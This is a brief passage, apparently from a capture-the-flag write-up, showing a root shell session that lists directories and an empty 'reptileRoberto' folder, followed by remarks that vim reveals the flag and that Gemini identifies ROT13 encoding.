drwxr-xr-x  28 root root   900 Jan 21 15:07 run
lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Jul 16  2021 snap
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Jan 21 10:39 sys
drwxrwxrwt  19 root root  4096 Jan 21 14:56 tmp
drwxr-xr-x  14 root root  4096 Feb  1  2021 usr
drwxr-xr-x  13 root root  4096 Feb  1  2021 var
You have new mail in /var/mail/root
root@erlenmeyer:/# cd reptileRoberto
root@erlenmeyer:/reptileRoberto# ls -al
total 8
drwxr-xr-x  2 root root 4096 Oct 19  2021 .
drwxr-xr-x 21 root root 4096 Sep 14  2021 ..
root@erlenmeyer:/reptileRoberto# 


```

And the vim tells you the flag!



And the Gemini tells the code is a ROT13 encoded:



&nbsp;